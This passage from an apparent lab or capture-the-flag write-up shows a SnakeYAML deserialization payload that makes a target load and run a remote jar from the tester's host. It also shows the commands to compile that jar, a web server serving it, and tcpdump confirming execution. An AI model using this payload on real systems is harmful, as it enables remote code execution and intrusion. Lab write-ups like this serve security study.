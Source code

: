 Compile payload and prepare request data:

```console
!!javax.script.ScriptEngineManager [
  !!java.net.URLClassLoader [[
    !!java.net.URL ["http://10.10.14.14/yaml_ping.jar"]
  ]]
]
```

```console
└─╼$ javac src/artsploit/AwesomeScriptEngineFactory.java
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true

└─╼$ jar -cvf yaml-payload.jar -C src/ .
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
added manifest
ignoring entry META-INF/
adding: META-INF/services/(in = 0) (out= 0)(stored 0%)
adding: META-INF/services/javax.script.ScriptEngineFactory(in = 36) (out= 38)(deflated -5%)
adding: artsploit/(in = 0) (out= 0)(stored 0%)
adding: artsploit/AwesomeScriptEngineFactory.class(in = 1608) (out= 674)(deflated 58%)
adding: artsploit/AwesomeScriptEngineFactory.java(in = 1657) (out= 449)(deflated 72%)

└─╼$ jar -tf yaml-payload.jar
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
META-INF/
META-INF/MANIFEST.MF
META-INF/services/
META-INF/services/javax.script.ScriptEngineFactory
artsploit/
artsploit/AwesomeScriptEngineFactory.class
artsploit/AwesomeScriptEngineFactory.java
```

**[!]** Unfortunately, no icmp package received... Check Java version and switch to a lower version

- java 17 [x]
- java 11 [y]

```console
└─╼$ java --version
Picked up _JAVA_OPTIONS: -Dawt.useSystemAAFontSettings=on -Dswing.aatext=true
openjdk 17.0.10 2024-01-16
OpenJDK Runtime Environment (build 17.0.10+7-Debian-1)
OpenJDK 64-Bit Server VM (build 17.0.10+7-Debian-1, mixed mode, sharing)
```

```console
└─╼$ sudo python -m http.server 80
Serving HTTP on 0.0.0.0 port 80 (http://0.0.0.0:80/) ...
10.10.10.227 - - [30/Jan/2024 04:08:31] "GET /yaml_ping.jar HTTP/1.1" 200 -
10.10.10.227 - - [30/Jan/2024 04:08:32] "GET /yaml_ping.jar HTTP/1.1" 200 -

└─╼$ sudo tcpdump -ni tun0 icmp
tcpdump: verbose output suppressed, use -v[v]... for full protocol decode
listening on tun0, link-type RAW (Raw IP), snapshot length 262144 bytes
04:08:32.075126 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 1, length 64
04:08:32.075167 IP 10.10.14.14 > 10.10.10.227: ICMP echo reply, id 1, seq 1, length 64
04:08:33.138393 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 2, length 64
04:08:33.138415 IP 10.10.14.14 > 10.10.10.227: ICMP echo reply, id 1, seq 2, length 64
04:08:34.176999 IP 10.10.10.227 > 10.10.14.14: ICMP echo request, id 1, seq 3, length 64
04:08:34.177022 IP 10.10.14.14 > 10.10.10.227: ICMP echo reply, id 1, seq 3, length 64
```
